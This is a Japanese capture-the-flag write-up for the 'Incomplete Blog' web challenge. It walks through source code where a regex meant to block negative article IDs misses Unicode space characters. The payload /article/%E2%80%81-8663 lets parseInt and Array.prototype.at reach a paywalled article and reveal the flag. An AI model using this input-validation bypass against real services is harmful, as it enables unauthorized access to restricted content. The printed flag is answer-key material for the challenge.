




# [Web] Incomplete Blog
> JavaScriptでブログを作ってみました。
> 
> ただ、まだ開発中ですし、有料記事のための課金システムも今頑張って作っているところで未完成です。なので、一部の有料にするつもりの記事は閲覧できません。ごめんなさい😉
> 
> ---
> 
> I made a blog with JavaScript. 
> 
> This blog is currently under development. I'm working hard to implement a payment system for reading premium content, but it is not ready yet. So, more than 9000 articles that will be premium content are not available so far. Sorry for the inconvenience😉

与えられたURLにアクセスしてみると、以下のように記事の一覧が表示されます。全部で9000個以上の記事があるそうですが、トップページに表示されている10個以外の記事を見るにはプレミアムユーザになる必要があると言われています。



トップページの個別の記事へのリンクを見てみると、リンク先は `/article/3` のようなパスになっていることがわかります。個別の記事のパスは `/article/(記事ID)` という構造になっているようですが、プレミアムユーザしか見れないという記事のIDにしてみるとどうでしょうか。

試しに `/article/100` にアクセスしてみると、以下のように `Access denied` と表示されました。なんとかしてこれらの記事を見れないでしょうか。



## ソースコードを読む
ソースコードを見ていきましょう。初期化処理を見てみると、`articles` という配列に記事の情報が含まれていることがわかります。1337というIDの記事にフラグが含まれており、これを取得できればよさそうです。

```javascript
const { flag } = require('./secret');

// generate articles
let articles = [];
for (let i = 0; i < 10000; i++) {
  articles.push({
    title: `Dummy article ${i}`,
    content: 'Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.'.trim()
  });
}
articles[1337] = {
  title: 'Flag',
  content: `Wow, how do you manage to read this article? Anyway, the flag is: <code>${flag}</code>`
};
```

個別の記事を表示する処理を見てみましょう。URLから与えられたIDを `parseInt` という関数によって数値に変換し、`articles.at(id)` と `Array.prototype.at` という関数によって記事の情報を取得しています。IDが10以上であれば `Access denied` と表示する処理があり、このためにIDが1337である記事はこのままでは読めません。

```javascript
app.get('/article/:id', async (request, reply) => {
  // id should not be negative 
  if (/^[\b\t\n\v\f\r \xa0]*-/.test(request.params.id)) {
    return reply.view('article.ejs', {
      title: 'Access denied',
      content: 'Hacking attempt detected.'
    });
  }

  let id = parseInt(request.params.id, 10);

  // free users cannot read articles with id >9
  if (id > 9) {
    return reply.view('article.ejs', {
      title: 'Access denied',
      content: 'You need to become a premium user to read this content.'
    });
  }

  const article = articles.at(id) ?? {
    title: 'Not found',
    content: 'The requested article was not found.'
  };

  return reply.view('article.ejs', article);
});
```

ところで、ここでは最初に `/^[\b\t\n\v\f\r \xa0]*-/` という正規表現によってIDをチェックしていますが、どういうことでしょうか。コメントによればIDが負数であるかチェックしているようですが、負数であればなにか問題があるのでしょうか。

その後でIDが引数として渡される `Array.prototype.at` について調べてみましょう。MDNによれば、引数が負数であれば逆に配列の末尾からのインデックスとして扱われることがわかります。例えば、`['a','b','c','d'].at(-3)` であれば後ろから3番目の `'b'` がその返り値になります。

> The at() method takes an integer value and returns the item at that index, allowing for positive and negative integers. **Negative integers count back from the last item in the array.**
> 
> https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Array/at

このような `Array.prototype.at` の挙動を考えてIDが負数であるか確認しているようですが、なんとかして正規表現によるチェックをバイパスできないでしょうか。 

## チェックをバイパスする
正規表現によるチェックでは、`[\b\t\n\v\f\r \xa0]*` と空白文字から始まっているか確認されています。MDNによれば [`parseInt` は先頭の空白文字を無視する](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/parseInt)そうですが、正規表現で指定されている文字のほかに空白文字として扱われるものはないでしょうか。

さらにMDNで調べてみると、次のような文字が空白文字として扱われることがわかります。

> [ECMAScript® 2015 言語仕様書](https://www.ecma-international.org/ecma-262/6.0/#sec-white-space)では、いくつかの Unicode コードポイントをホワイトスペースとして定めています。 `U+0009 CHARACTER TABULATION <TAB>`, `U+000B LINE TABULATION <VT>`, `U+000C FORM FEED <FF>`, `U+0020 SPACE <SP>`, `U+00A0 NO-BREAK SPACE <NBSP>`, `U+FEFF ZERO WIDTH NO-BREAK SPACE <ZWNBSP>` および その他のカテゴリ `“Zs” Unicode` の他の `“Separator, space” コードポイント <USP>` に属するすべての文字です。
> 
> https://developer.mozilla.org/ja/docs/Glossary/Whitespace#in_javascript

ということで、チェックに引っかからず、JavaScriptにおいて空白文字として扱われるという条件に当てはまる文字を探すスクリプトを書いて実行してみると、以下のようにたくさん見つかりました。

```
$ cat a.js
for (let i = 0; i < 0x10000; i++) {
  const c = String.fromCodePoint(i);
  if (/\p{Zs}/u.test(c) && !/[\b\t\n\v\f\r \xa0]/.test(c)) {
    console.log(i.toString(16));
  }
}
$ node a.js 
1680
2000
2001
2002
2003
2004
2005
2006
2007
2008
2009
200a
202f
205f
3000
```

この中から適当にU+2001を選び、`encodeURIComponent(String.fromCharCode(0x2001))` によってパーセントエンコーディングを施すと `%E2%80%81` になります。これに `-1` をくっつけて `/article/%E2%80%81-1` にアクセスすると、IDが9999の記事が表示されました。やったあ。



## フラグを得る
IDが1337の記事を表示する場合は `/article/%E2%80%81-8663` です。アクセスするとフラグが得られました。



```
HarekazeCTF{I_d0nt_kn0w_h0w_t0_m4ke_ctf_ch4llenges_t4sukete}
```